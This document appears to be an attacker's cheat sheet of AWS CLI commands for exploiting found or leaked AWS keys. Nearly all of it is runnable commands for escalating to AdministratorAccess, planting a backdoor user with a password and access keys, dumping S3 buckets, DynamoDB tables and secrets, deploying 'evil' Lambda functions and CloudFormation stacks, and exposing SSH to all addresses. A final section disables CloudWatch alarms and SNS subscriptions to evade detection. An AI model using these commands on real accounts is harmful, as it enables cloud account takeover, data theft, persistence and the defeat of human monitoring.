 So you found some aws keys...



## Caller id
who is me
```
aws sts get-caller-identity
```

## List, show stuff
```
aws ec2 describe-instances
aws s3 ls
aws s3api list-buckets
aws iam list-users
aws iam list-roles
aws iam list-groups-for-user --user-name user-example
aws iam list-group-policies --group-name Admins
...
```
## List (attached) policies
```
aws iam list-attached-role-policies --role-name ad-example
aws iam list-attached-user-policies --user-name user-example
aws iam list-user-policies --user-name user-example
```

## Get policies
There are managed policies and inline policies, see [here](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html).
Check especially for inline policies and everything custom, as these are likly candidates for excessive permissions and priv esc
```
aws iam get-policy --policy-arn ...
aws iam get-user-policy --user-name user-example --policy-name ...
aws iam get-policy-version --policy-arn ... --version-id v1
aws iam get-role-policy --role-name ... --policy-name ...
```

## Attach a policy
attach aws managed all admin policies
```
aws iam attach-user-policy --user-name user-example --policy-arn ...
aws iam attach-user-policy --user-name user-example --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam attach-group-policy --group-name developer --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## Add policy
add custom policy .json to group, role (needs your own policy file obviously)
```
aws iam create-policy-version --policy-arn arn:aws:iam::666666666666:policy/Print --policy-document file:///.../newAdminPolicy.json --set-as-default
aws iam put-group-policy --group-name Admins --policy-document file:///.../newAdminPolicy.json --policy-name AdminRoot
aws iam put-role-policy --role-name developerlambda --policy-name AdminMeow --policy-document file:///.../newAdminPolicy.json      
```

## Role policy
```
aws iam list-role-policies --role-name admin
aws iam get-role-policy --role-name admin --policy-name AddUser
```

## Assume role
[Assuming direct control](https://www.youtube.com/watch?v=p3h8ZnXLsRg)
```
aws sts assume-role --role-arn arn:aws:iam::666666666666:role/ad-example --role-session-name ad-example
```

## Search for adminstuff
```
aws iam list-policies | grep 'AdministratorAccess'  
```

## Add user to group, create user, change login
```
aws iam add-user-to-group --group-name developer --user-name kevin
aws iam create-login-profile --user-name mandy --password compliance123! --no-password-reset-required
aws iam create-user --user-name backdoorbeaver
aws iam create-access-key --user-name Bob
```

## EC2, list, deploy, secu group

```
aws ec2 describe-subnets
aws ec2 describe-security-groups
aws iam list-instance-profiles

aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'

aws ec2 run-instances --subnet-id subnet-.... --image-id ami-... --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-..."
aws ec2 authorize-security-group-ingress --group-id ... --protocol tcp --port 22 --cidr 0.0.0.0
```


## EC2 key gen
```
aws ec2 create-key-pair --key-name nyankey --query 'KeyMaterial' --output text | out-file -encoding ascii -filepath nyankey.pem
chmod 400 mighty.pem
```

## Dynamodb
```
aws dynamodb list-tables | jq -r .TableNames[]
aws dynamodb scan --table-name secrettable-233223 --region us-east-1
```

## Secret
```
aws secretsmanager get-secret-value --secret-id ...--region
```

## S3
list buckets, get objects, acl and policy
```
aws s3 ls
aws s3api list-buckets
aws s3 sync s3://user-resources-12jljlaj3434ljalsjf/ ./
aws s3api list-objects --bucket ...
aws s3 --no-sign-request --region ap-southeast-1 ls s3://static-resources-example
aws s3api get-bucket-policy --bucket ... --output text | python -m json.tool
aws s3api get-bucket-acl --bucket ... > acl.json
aws s3api get-object-acl --bucket ... --key secret_object > object.json

```
## S3 add policy, acl
add your own policy or acl file to bucket/object
```
aws s3api put-bucket-policy --bucket ... --policy file://policy.json
aws s3api put-object-acl --bucket ... --key secret_object --access-control-policy file://object.json
aws s3api put-bucket-acl --bucket --access-control-policy file://acl.json
```

## API-Gateway
list, show rest-api, ressources method and key
```
aws apigateway get-account
aws apigateway get-rest-apis
aws apigateway get-api-keys
aws apigateway get-api-key --api-key ... --include-value
aws apigateway get-ressources --rest-api-id ...
aws apigateway get-method --rest-api-id ... --http-method GET --ressource-id ...
```

## Lambda
```
aws lambda list-functions
aws lambda get-function --function-name DynamoFunction  
aws lambda get-policy --function-name pawsitivty
```

## Lambda deploy own
Create your own evil lambda function and invoke, check [here](https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-awscli.html) for how to
```
aws lambda create-function --function-name Ishimura --zip-file fileb://Ishimura.zip --handler index.handler --runtime nodejs18.x --role arn:aws:iam::666666666666:role/lambda-ex
aws lambda invoke --function-name Ishimura marker.txt
```

## Cloudformation
```
aws cloudformation list-stack-resources --stack-name weatherman
aws cloudformation describe-stack-events --stack-name intensification90
aws cloudformation get-template --stack-name stackmanfred

```
## Cloudformation deploy
```
aws cloudformation validate-template --template-body file://evil.yaml
aws cloudformation create-stack --template-body file://evil.yaml --stack-name stolenstack --parameters ParameterKey=uri,ParameterValue=$uri --output text
aws cloudformation describe-stacks --stack-name stolenstack  --query Stacks[*].Outputs --output text
aws cloudformation delete-stack --stack-name stolenstack --output text
```

## Wiuuu Wiuuu cloudwatch, sns
If there are alarms monitoring in cloudwatch, sns and you have permissions, identify and if needed deactivate them. 
```
aws cloudwatch describe-alarms --alarm-names "soundofdapolice"
aws sns list-topics
aws sns list-subscriptions
```
## Less Wiuu Wiuu
```
aws cloudwatch disable-alarm-actions --alarm-names soundofdapolice
aws cloudwatch describe-alarm-history --alarm-name "iamshadow" --history-item-type StateUpdate
aws sns unsubscribe --subscription-arn arn:aws:sns:us-west-2:666666666666:my-topic:somerandomstring
```

